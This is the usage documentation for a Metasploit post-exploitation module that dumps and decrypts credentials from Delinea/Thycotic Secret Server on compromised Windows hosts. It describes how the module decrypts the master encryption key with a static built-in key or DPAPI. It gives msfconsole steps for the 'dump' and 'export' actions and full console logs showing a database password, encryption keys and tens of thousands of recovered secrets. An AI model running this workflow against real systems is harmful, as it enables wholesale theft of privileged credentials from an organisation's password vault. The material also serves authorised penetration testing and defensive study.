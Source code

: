 This module exports and decrypts Secret Server credentials to a CSV file; it is intended as a
post-exploitation module for Windows hosts with Delinea/Thycotic Secret Server installed. Master
Encryption Key (MEK) and associated IV values are decrypted from `encryption.config` using a 
static key baked into the software; there is also support for encryption configs configured with
Windows DPAPI MachineKey protection. The module contains two actions, `dump` and `export`, the
former extracts the encrypted Secret Server database and performs decryption, and the latter
allows the encryption keys and encrypted database to be plundered for later offline decryption
in situations where expedience is necessary.

This module incorporates original research published by the authors of SecretServerSecretStealer,
a PowerShell script designed to harvest Secret Server credentials. The GitHub repo for
SecretStealer.ps1 includes tons of notes on the internals of Secret Server:

https://github.com/denandz/SecretServerSecretStealer

## Vulnerable Application
This module has been tested against Secret Server versions 8.4 through 11.2, though it may work on
earlier versions. It is intended to be run after successfully exploiting a Windows host with the
Delinea/Thycotic Secret Server software installed. The module supports decryption of configuration
files that have been protected by Windows DPAPI, but does not support extraction of any secrets
if the system is configured with a Hardware Security Module (HSM).

## Verification Steps
This is a post module and requires a meterpreter session on the Microsoft Windows server host
with a configured instance of Delinea/Thycotic Secret Server installed.

1. Start msfconsole
2. Get session on Secret Server host via method of choice and background it
3. Do: `use post/windows/gather/credentials/thycotic_secretserver_dump`
4. Do: `set session <session>`
5. Do: `dump` to extract and decrypt the Secret Server database, or `export` to extract the encrypted database only

## Options

### SESSION

Which session to use, which can be viewed with `sessions -l`

## Scenarios
Windows Server 2019 host running Secret Server 11.2 using the `dump` action:

```
msf exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf post(windows/gather/credentials/thycotic_secretserver_dump) > dump

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer
[+]     Database User: sa
[+]     Database Pass: !-TUwX!_-gD-wak-cugyU-0GX0$vL-evYG2
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: fc35d1abcade1c180c699e10fbb3efeb
[+]     KEY256: e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109
[+]         IV: 2c2df1a68dbc29adc66041bd6e6e4ad3
[*] Performing export and decryption of Secret Server SQL database
[*] Export Secret Server DB ...
[+] 47842 rows exported, 19915 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829112535_default_10.1.0.113_thycotic_secrets_288749.txt
[+] 47842 rows loaded, 19915 unique SecretIDs
[*] Process Secret Server DB ...
[-] SecretID 1395 field 'Notes' failed to decrypt
[-] SecretID 2050 field 'Notes' failed to decrypt
[-] SecretID 2506 field 'Notes' failed to decrypt
[-] SecretID 2549 field 'Notes' failed to decrypt
[-] SecretID 2558 field 'Notes' failed to decrypt
[-] SecretID 2566 field 'Notes' failed to decrypt
[-] SecretID 2567 field 'Notes' failed to decrypt
[-] SecretID 2583 field 'Notes' failed to decrypt
[-] SecretID 3393 field 'Notes' failed to decrypt
[-] SecretID 4060 field 'Notes' failed to decrypt
[!] SecretID 4092 field 'SFTP Site' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 4103 field 'Notes' failed to decrypt
[-] SecretID 4174 field 'Notes' failed to decrypt
[-] SecretID 4625 field 'Notes' failed to decrypt
[-] SecretID 5393 field 'Notes' failed to decrypt
[-] SecretID 5647 field 'Notes' failed to decrypt
[-] SecretID 6018 field 'Notes' failed to decrypt
[-] SecretID 6250 field 'Notes' failed to decrypt
[-] SecretID 6263 field 'Notes' failed to decrypt
[-] SecretID 6657 field 'Notes' failed to decrypt
[-] SecretID 9169 field 'Notes' failed to decrypt
[-] SecretID 10577 field 'Notes' failed to decrypt
[-] SecretID 10777 field 'Notes' failed to decrypt
[!] SecretID 11097 field 'Notes' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 11319 field 'Notes' failed to decrypt
[-] SecretID 11973 field 'Notes' failed to decrypt
[-] SecretID 11974 field 'Notes' failed to decrypt
[-] SecretID 11997 field 'Notes' failed to decrypt
[!] 47842 rows processed (26 rows failed)
[*] 45117 rows recovered: 34479 plaintext, 10638 decrypted (2699 blank)
[*] 45117 rows written (2699 blank rows withheld)
[+] 19836 unique SecretID records recovered
[+] Decrypted Secret Server Database Dump: /root/.msf4/loot/20220829112547_default_10.1.0.113_thycotic_secrets_357639.txt
[*] Post module execution completed
msf post(multi/gather/thycotic_secretserver_dump) > 
```

Windows Server 2019 host running Secret Server 11.2 using the `export` action:
```
msf exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf post(windows/gather/credentials/thycotic_secretserver_dump) > export

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer_112E
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: 376f80b25053d74afcc321837442ddc9
[+]     KEY256: 5b0f4d7d2d89c180b62c64b881072d4cf2b6fd0487c9d4438050a4734a3ece19
[+]         IV: d933b2ad66c785891d4bc916cebdde15
[*] Performing export of Secret Server SQL database to CSV file
[*] Export Secret Server DB ...
[+] 3 rows exported, 1 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829113427_default_10.1.0.113_thycotic_secrets_175194.txt
[*] Post module execution completed
